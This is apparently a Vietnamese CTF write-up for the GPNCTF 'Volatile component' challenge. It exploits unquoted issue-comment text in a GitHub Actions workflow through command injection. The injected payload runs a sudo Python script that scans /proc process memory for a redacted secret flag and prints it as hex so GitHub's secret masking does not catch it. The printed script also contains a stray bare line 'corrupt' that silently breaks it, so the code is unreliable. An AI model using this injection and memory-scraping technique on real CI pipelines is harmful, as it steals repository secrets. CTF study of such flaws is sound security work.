



## Volatile component
### Đề bài
Diallyl disulfide is one of the main parts that is responsible for the smell of garlic. With a vapor pressure of 1 mmHg at 20 °C, even if most of it is removed, some traces might remain.

### Giải
Bài yêu cầu cung cấp tên tài khoản Github để thêm vào Collaborators. Mình bị giới hạn các quyền không được tạo branch mới hay pull request


Repo chỉ chứa workflow `issue-comment.xml` là file định nghĩa quy trình CI/CD cho Github Action. File quy định quy trình khi nhận được issue comment được tạo hoặc issue được mởlàm những việc sau:
- chạy trên ubuntu với thời gian timeout là 3 phút
- thực hiện in ra flag từ secret
- tìm tất cả các flag có dạng GPNCTF{...} trong `/home/runner/` và sửa đổi chúng thành GPNCTF{REDACTED} bằng sed
- In ra nội dung nhận được từ issue comment hoặc issue


Có thể thấy việc nhận và in lại nội dung từ issue comment hoặc issue mà không bọc biến môi trường tạo ra điều kiện để thực hiện command injection. Đề bài cũng nói kể cả khi bị xóa đi thì vẫn để lại dấu vết nên nhiệm vụ của bài là sử dụng phần comment này để tìm lại flag chưa bị sửa đổi

Do flag đã bị sửa đổi trong `/home/runner/` là thư mục gốc của chứa toàn bộ workflow và tệp tin sinh ra trong quá trình chạy, flag vẫn có thể còn trong bộ nhớ các tiến trình trong máy ảo. Thực hiện quét bộ nhớ các tiến trình trong máy ảo tìm flag và in ra dưới dạng hex để vượt qua Github Secret Masking (base64 vẫn bị chuyển thành ***)
``` 
"; sudo python3 << 'PYEOF'
import re, base64, os, sys

found = set()
for pid in os.listdir('/proc'):
    if not pid.isdigit():
        continue
    try:
        maps = open(f'/proc/{pid}/maps').readlines()
        mem = open(f'/proc/{pid}/mem', 'rb', 0)
        for line in maps:
            if any(x in line for x in ['.so','/usr/','/lib','vvar','vdso']):
                #bỏ qua các thư viện hệ thống
                continue
            if ' r' not in line:
                #bỏ qua phân vùng không cho phép đọc
                continue
            m = re.match(r'([0-9a-f]+)-([0-9a-f]+)', line)
            if not m:
                continue
            start, end = int(m.group(1),16), int(m.group(2),16)
            #bỏ qua các tiến trình quá lớn để tránh timeout
            if end - start > 30*1024*1024: 
                continue
            try:
                mem.seek(start)
                chunk = mem.read(end - start)
                idx = chunk.find(b'GPNCTF\x7b')
                while idx != -1:
                    raw = chunk[idx:idx+300]
                    end_idx = raw.find(b'\x7d')
                    if end_idx != -1:
                        flag_raw = raw[:end_idx+1]
                        key = flag_raw[:20]
                        if key not in found:
                            found.add(key)
                            corrupt
                            sys.stdout.write(flag_raw.hex() + '\n')
                            sys.stdout.flush()
                    idx = chunk.find(b'GPNCTF\x7b', idx+1)
            except:
                pass
    except:
        pass
PYEOF
echo "
```

Tạo issue với nội dung là payload trên thì tìm được flag


FLAG: **GPNCTF{did_yOU_knOW_7haT_d14LLYl_DiSulfiD3_peNEtR4T3s_THROUGH_MOst_c0mm3rcIa1_g10v3_TYpE5_cAus1N6_G4rlIC_all3r6Y_wh1Ch_m0s7_oftEN_4FFECTs_ChEF5_AND_0thEr_P30PL3_THAt_haNDlE_gaRl1C_OUU3zSjB}**

